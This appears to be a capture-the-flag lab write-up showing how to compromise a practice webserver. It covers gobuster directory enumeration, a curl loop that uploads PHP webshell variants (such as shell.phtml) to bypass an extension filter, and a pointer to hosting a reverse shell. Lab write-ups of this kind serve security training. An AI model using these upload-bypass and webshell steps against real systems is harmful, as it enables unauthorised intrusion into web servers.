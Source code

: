
### Gobuster

```bash
gobuster dir -u http://10.10.60.122:3333 -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -t 100 -e -r
```


## Compromise the Webserver

Now that you have found a form to upload files, we can leverage this to upload and execute our payload, which will lead to compromising the web server.


### Fuzz php extensions for file upload bypass

make sure **payloadsallthethings** is cloned

```bsah
┌──(kali㉿kali)-[/opt/sectools/cheatsheet]
└─$ git clone https://github.com/swisskyrepo/PayloadsAllTheThings/
```

or install from apt (Will only contain payloads and not up to date)

will be installed at `/usr/share/payloadsallthethings`

```bash
sudo apt install payloadsallthethings -y
```

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ ls
 phpinfo.jpg.php   phpinfo.php3   phpinfo.php7   phpinfo.phtml          shell.jpg.php          shell.phar   shell.php4   shell.phpt    shell.png.php
 phpinfo.phar      phpinfo.php4   phpinfo.phpt  'shell.gif?shell.php'  'shell.jpg?shell.php'   shell.php    shell.php5   shell.pht    'shell.png?shell.php'
 phpinfo.php       phpinfo.php5   phpinfo.pht    shell.jpeg.php         shell.pgif             shell.php3   shell.php7   shell.phtml
```


### Use curl to automate file upload

> Alternative way is to use brup suite using wordlist :: `/opt/sectools/cheatsheet/PayloadsAllTheThings/Upload Insecure Files/Extension PHP/extensions.lst`

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ for FILE in *; do string=$(curl -s -X POST -F file=@$FILE http://10.10.60.122:3333/internal/index.php); if [[ $string != *"Extension not allowed"* ]]; then echo "Found: $FILE" ;fi ; done
Found: phpinfo.phtml
Found: shell.phtml
```

Host reverse shell script ([[Reverse Shell#Reverse Shell as service]])
